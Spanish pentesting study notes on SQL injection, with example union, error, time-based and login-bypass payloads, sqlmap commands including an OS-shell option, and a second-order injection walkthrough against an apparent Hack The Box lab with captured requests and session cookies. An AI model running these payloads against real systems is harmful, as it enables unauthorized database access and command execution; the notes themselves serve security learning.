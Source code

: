 # SQL Injection

## SQL Injection Fundamentals
- Una inyección SQL es una vulnerabilidad de seguridad que permite a un atacante interferir con las consultas que una aplicación web realiza a su base de datos SQL.
- La inyección SQL se produce cuando se insertan datos no validados en una consulta SQL.
- La inyección SQL puede ser utilizada para leer, modificar y eliminar datos de una base de datos.
- La inyección SQL puede ser utilizada para ejecutar comandos en el sistema operativo.
- Hay diferentes tipos de inyecciones SQL, como la inyección SQL basada en errores, la inyección SQL basada en tiempo y la inyección SQL ciega.
![](https://academy.hackthebox.com/storage/modules/33/types_of_sqli.jpg)
    - union based SQL injection
        - ejemplo de payload: `1' UNION SELECT 1,2,3 --`
    - error based SQL injection
        - ejemplo de payload: `1' AND 1=CONVERT(int, (SELECT @@version)) --`
    - time based SQL injection
        - ejemplo de payload: `1' AND IF(1=1, SLEEP(5), 0) --`
    - blind SQL injection
        - ejemplo de payload: `1' AND SLEEP(5) --`

### Deteccion de SQL Injection
- Generalmente al poner un `'` en un campo de texto y si la aplicación devuelve un error de SQL, es probable que sea vulnerable a SQL Injection.
- También se puede poner un comentario `--` como intento de primer payload.
- Otra forma de detectar SQL Injection es mediante la inyección de comandos SQL en los campos de texto y observar si la aplicación devuelve resultados inesperados.
    - **"Error: near line 1: near "'": syntax error"** es un mensaje de error común que se obtiene cuando se inyecta un `'` en un campo de texto.
    - Ejemplo: `1' OR '1'='1`

### Login Bypass SQL Injection
- La inyección SQL se puede utilizar para eludir la autenticación de un sistema.
- Ejemplo de payload: `admin' OR '1'='1`
    - Si el usuario y la contraseña son correctos, la consulta SQL se verá así: `SELECT * FROM users WHERE username='admin' AND password='password'`
    - Esto genera una tautología que siempre es verdadera, entonces la va a tomar como verdadera y va a permitir el acceso.
![](https://academy.hackthebox.com/storage/modules/33/or_inject_diagram.png)


## [SQLI manual](./manualSQLI.md)

## SQLMAP
- SQLMAP es una herramienta de prueba de penetración de código abierto que automatiza el proceso de detección y explotación de vulnerabilidades de inyección SQL.

### Comandos generales
- `sqlmap -u URL --dbs` para listar las bases de datos.
- `sqlmap -r HTTP-REQUEST-FILE --dbs` para usar un archivo con la request.
- `sqlmap -r HTTP-REQUEST-FILE --dbs --batch` para usar un archivo con la request y no hacer preguntas.
- `sqlmap -r HTTP-REQUEST-FILE --dbs --batch --level=5 --risk=3` para usar un archivo con la request y no hacer preguntas, con nivel de riesgo y nivel de profundidad.
- `sqlmap -r HTTP-REQUEST-FILE --dbs --batch --level=5 --risk=3  --current-user --current-db --is-dba` para usar un archivo con la request y no hacer preguntas, con nivel de riesgo y nivel de profundidad, y obtener información del usuario actual, base de datos actual y si es DBA.

#### Anti-CSRF Token
- Si la aplicación web utiliza tokens CSRF, se puede usar el parámetro `--csrf-token` para especificar el token CSRF.
- Ejemplo: `sqlmap -u URL --csrf-token=CSRF-TOKEN --dbs`
- `sqlmap -u URL --randomize=rp --dbs` para randomizar el token CSRF.
- `sqlmap -u URL --eval="import time; time.sleep(10)" --csrf-token=CSRF-TOKEN --dbs` para evaluar un script de python y dormir el tiempo que se le pase como argumento.

#### OS shell
- `sqlmap -u URL --os-shell` para obtener una shell en el sistema operativo.


## SQLI en WebSockets
- Dentro de los websockets se pueden realizar consultas SQL.
- Hay que estar atento al burp proxy para ver las peticiones y respuestas.
- sqlmap -u ws://soc-player.soccer.htb:9091 --data '{"id": "*"}' --dbs --threads 10 --level 5 --risk 3 --batch

## Inyección SQL de Segundo Orden

La inyección SQL de segundo orden ocurre cuando los datos inyectados no se utilizan de inmediato, sino que se almacenan en la base de datos y se procesan posteriormente en una consulta SQL de manera insegura.

### Ejemplo:
1. El atacante introduce datos maliciosos en un formulario que se almacenan en la base de datos.
2. Más tarde, otra funcionalidad de la aplicación utiliza esos datos almacenados en una consulta SQL sin validarlos, permitiendo la explotación.

- Este tipo de inyección es más difícil de detectar, ya que el impacto no es inmediato y depende de cómo la aplicación maneje los datos almacenados.

- `sqlmap -r update_genres.req --second-req=user-feed.req  --dbs --level 5 --risk 3 --batch --tamper=space2comment --random-agent`
- Siendo update_genres.req un archivo que contiene una petición HTTP POST de una api que actualiza algo, o sea que es muy probable que haga una consulta del tipo `UPDATE table SET column = value WHERE condition`.
    - Y la segunda petición que practicamente hace GET user feed, o sea que recarga/fetchea/actualiza la información en la aplicación.


### update_genres.req
```http	
POST /api/v1/gallery/user/genres HTTP/1.1
Host: 10.10.11.220
Content-Length: 17
X-XSRF-TOKEN: eyJpdiI6ImdtZ0VkQXI0aUZtTUVVNzZxUnF6VlE9PSIsInZhbHVlIjoiYmZTRGVOWmptTVN3S2NldGlZNWtxdkozYUF0N25HWXVuazRuL0hBTGo0QnRaSCsrVWhMNkNuV1ltaUhvbkxDbFlTaVJueFcvdVhvamFLbE9wREgxZkEvdjA0L0J0bWxvSWNma2VUZ3JyWXYraG1Vb1VZeVVqNXV0bDBtUStib0ciLCJtYWMiOiJjNWU2ZDkwYWM1MGQ3NDQ4MjE2ZTZhYmU0ZjRkNzU5NDhjZTNhODEzNzA1ZDlmY2UwOWNjNDM1OGYwYzdkMTdiIiwidGFnIjoiIn0=
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Origin: http://10.10.11.220
Referer: http://10.10.11.220/gallery
Accept-Encoding: gzip, deflate, br
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92MS9hdXRoL2xvZ2luIiwiaWF0IjoxNzQ0MDQ3MzcwLCJleHAiOjE3NDQwNjg5NzAsIm5iZiI6MTc0NDA0NzM3MCwianRpIjoiNDB3T0RMR2l1Qkp1aFczTyIsInN1YiI6IjI4IiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.N18GEbvP-Lpdcm-w0VsyqQ-Ihbyu5KYNq9obdXn65Aw; XSRF-TOKEN=eyJpdiI6ImdtZ0VkQXI0aUZtTUVVNzZxUnF6VlE9PSIsInZhbHVlIjoiYmZTRGVOWmptTVN3S2NldGlZNWtxdkozYUF0N25HWXVuazRuL0hBTGo0QnRaSCsrVWhMNkNuV1ltaUhvbkxDbFlTaVJueFcvdVhvamFLbE9wREgxZkEvdjA0L0J0bWxvSWNma2VUZ3JyWXYraG1Vb1VZeVVqNXV0bDBtUStib0ciLCJtYWMiOiJjNWU2ZDkwYWM1MGQ3NDQ4MjE2ZTZhYmU0ZjRkNzU5NDhjZTNhODEzNzA1ZDlmY2UwOWNjNDM1OGYwYzdkMTdiIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6IlJXOWRQK0tJbk1jaUhCZDRLYktQV2c9PSIsInZhbHVlIjoiYWh4TGJYb1BjcnhMN2VVMWp2YzJiSkJoc0lRbjEzRVgxalc3Sm9aUUoyVktwaG9vZUdyWmpqYTZVTjc1bUQ2VFExUDd0UTVXTVdRMkxTaExsNGdVR0kvUTMxNzNwQlloS25yczJvUHlFelFobVQ2YWo1ZzVOQUdxRE9HM28xdTciLCJtYWMiOiJiN2U3MmNlOWI3ODYzNDE0ZTNhNDlkMDBiNmUzYTcyN2EwZGM1NTA2Yjc0MDMzOWU4NDkyODg2Zjc5N2YwNTUyIiwidGFnIjoiIn0%3D
Connection: keep-alive

{"genres":"test"}
``` 

### user-feed.req
```http
GET /api/v1/gallery/user/feed HTTP/1.1
Host: 10.10.11.220
X-XSRF-TOKEN: eyJpdiI6Im9JNktoUVE1cjA0NWpVMWlMcVdkbkE9PSIsInZhbHVlIjoiandkUFV2YTJIbTYwRjBiR0UyWG9HOUkxa1VtcDNJNGx4TWJDbU1FRnVURERWdThtdkR3TzJ4eXdENVNzcnNJcFpZanpWeFBPbzd1bUxHcVJzd0V4UmNsR0FDd29UbVNKVDcvUmtJN3BoVnBORnRxcHljTmJGTFdKbFFSOHF6MTciLCJtYWMiOiIwMGFhODg1NjcwZmExZDllMjNkYWQ2MzYwM2I2YjBkMjk4ZmNiZDBiZDZhOWMyOGE0NTMxOTViYjA3Y2UwNTVkIiwidGFnIjoiIn0=
X-Requested-With: XMLHttpRequest
Accept-Language: en-US,en;q=0.9
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.6778.86 Safari/537.36
Referer: http://10.10.11.220/gallery
Accept-Encoding: gzip, deflate, br
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJpc3MiOiJodHRwOi8vMTAuMTAuMTEuMjIwL2FwaS92MS9hdXRoL2xvZ2luIiwiaWF0IjoxNzQ0MDQ3MzcwLCJleHAiOjE3NDQwNjg5NzAsIm5iZiI6MTc0NDA0NzM3MCwianRpIjoiNDB3T0RMR2l1Qkp1aFczTyIsInN1YiI6IjI4IiwicHJ2IjoiMjNiZDVjODk0OWY2MDBhZGIzOWU3MDFjNDAwODcyZGI3YTU5NzZmNyJ9.N18GEbvP-Lpdcm-w0VsyqQ-Ihbyu5KYNq9obdXn65Aw; XSRF-TOKEN=eyJpdiI6Im9JNktoUVE1cjA0NWpVMWlMcVdkbkE9PSIsInZhbHVlIjoiandkUFV2YTJIbTYwRjBiR0UyWG9HOUkxa1VtcDNJNGx4TWJDbU1FRnVURERWdThtdkR3TzJ4eXdENVNzcnNJcFpZanpWeFBPbzd1bUxHcVJzd0V4UmNsR0FDd29UbVNKVDcvUmtJN3BoVnBORnRxcHljTmJGTFdKbFFSOHF6MTciLCJtYWMiOiIwMGFhODg1NjcwZmExZDllMjNkYWQ2MzYwM2I2YjBkMjk4ZmNiZDBiZDZhOWMyOGE0NTMxOTViYjA3Y2UwNTVkIiwidGFnIjoiIn0%3D; intentions_session=eyJpdiI6IjBlMDYybXlIRklhZHdVU0UrdGtFNEE9PSIsInZhbHVlIjoibEc5VU9FNDhISDdzUXdpYTJlcVBLK0xrbVhkeEVScndZVGcvRTl6Rm1iOVE3REV5bys2djdXWEQ4K0treVRWMEFzZkoxSGNmTTFwRzVraU1VYzBzRUpEcDM2WkxFT2xpUnFNVUFrVFQ2YktuT3hUQ3pkUkhSZCtWbDNvOXlCVi8iLCJtYWMiOiJkY2E0YmFmMWExZDdiZTcxNjUyZDUyZDE2MWMyZjk4OGUzZjM3NjZkNGY0ZWI2YmIwMTIzOTJmYzc4ODFmNjZiIiwidGFnIjoiIn0%3D
Connection: keep-alive
```

### Payloads
``` 
---
Parameter: JSON genres ((custom) POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause (NOT)
    Payload: {"genres":"test') OR NOT 5455=5455 AND ('QYvP'='QYvP"}

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: {"genres":"test') AND (SELECT 5404 FROM (SELECT(SLEEP(5)))LAtK) AND ('ClJK'='ClJK"}

    Type: UNION query
    Title: MySQL UNION query (NULL) - 5 columns
    Payload: {"genres":"test') UNION ALL SELECT NULL,CONCAT(0x7162787071,0x4a4268414d737150586b687553784e4d757851796e6c724c68666a646d4c4c706e78736c51435370,0x7171627671),NULL,NULL,NULL#"}
---
```

- Entonces el comportamiento de la aplicación es el siguiente:
    - Actualizas los géneros de un usuario, y luego haces un GET a la api de user feed.
    - La aplicación hace un SELECT a la base de datos para obtener los géneros del usuario y mostrarlos en la aplicación.
- La inyección SQL de segundo orden se produce cuando la aplicación almacena los datos inyectados en la base de datos y luego los utiliza en una consulta SQL sin validarlos.
- petición POST => Guardas una inyección SQL en la base de datos.
- petición GET => La aplicación hace un SELECT a la base de datos y muestra los datos inyectados en la aplicación.
- La inyección SQL de segundo orden se produce cuando la aplicación almacena los datos inyectados en la base de datos y luego los utiliza en una consulta SQL sin validarlos.